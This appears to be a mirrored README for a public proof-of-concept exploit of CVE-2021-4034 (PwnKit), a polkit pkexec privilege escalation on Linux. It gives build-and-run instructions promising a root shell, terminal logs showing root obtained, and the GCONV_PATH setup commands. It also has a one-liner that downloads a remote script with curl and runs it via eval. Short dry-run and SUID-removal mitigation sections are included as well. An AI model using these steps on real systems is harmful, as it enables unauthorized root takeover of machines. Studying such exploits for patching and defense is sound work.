 # CVE-2021-4034

CVE-2021-4034 1day

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/berdav](https://github.com/berdav) |
| Url      | [https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)                                               |
| Stars    | 1791                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-4034
One day for the polkit privilege escalation exploit

Just execute `make`, `./cve-2021-4034` and enjoy your root shell.

The original advisory by the real authors is [here](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

## PoC
If the exploit is working you'll get a root shell immediately:

```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp /usr/bin/true GCONV_PATH=./pwnkit.so:.
vagrant@ubuntu-impish:~/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# exit
```

Updating polkit on most systems will patch the exploit, therefore you'll get the usage and the program will exit:
```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ ./cve-2021-4034
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
vagrant@ubuntu-impish:~/CVE-2021-4034$
```

## Dry Run
To not execute a shell but just test if the system is vulnerable compile the `dry-run` target.

If the program exit printing "root" it means that your system is vulnerable to the exploit.
```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ make dry-run
...
vagrant@ubuntu-impish:~/CVE-2021-4034$ dry-run/dry-run-cve-2021-4034
root
vagrant@ubuntu-impish:~/CVE-2021-4034$ echo $?
1
```

If your system is not vulnerable it prints an error and exit.
```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ dry-run/dry-run-cve-2021-4034
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
vagrant@ubuntu-impish:~/CVE-2021-4034$ echo $?
0
```

## About Polkit pkexec for Linux

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).

# One-liner commands

You can easily exploit the system using a single script, downloadable and executable with this command:

```sh
eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
```

```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ whoami
vagrant
vagrant@ubuntu-impish:~/CVE-2021-4034$ eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
# whoami
root
```

# Mitigation

If no patches are available for your operating system, you can remove the SUID-bit from pkexec as a temporary mitigation.
```bash
# chmod 0755 /usr/bin/pkexec
```

The exploit then will fail complaining that `pkexec` must have the
setuid bit enabled.
```bash
vagrant@ubuntu-impish:/vagrant/CVE-2021-4034$ sudo chmod 0755 /usr/bin/pkexec
vagrant@ubuntu-impish:/vagrant/CVE-2021-4034$ ./cve-2021-4034
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
pkexec must be setuid root
```




## Get the content

```
git clone https://github.com/berdav/CVE-2021-4034
cd CVE-2021-4034
```

{% embed url="https://github.com/berdav/CVE-2021-4034" %}

<figure><img src="https://avatars.githubusercontent.com/u/1332095?v=4" alt=""><figcaption><p>berdav</p></figcaption></figure>
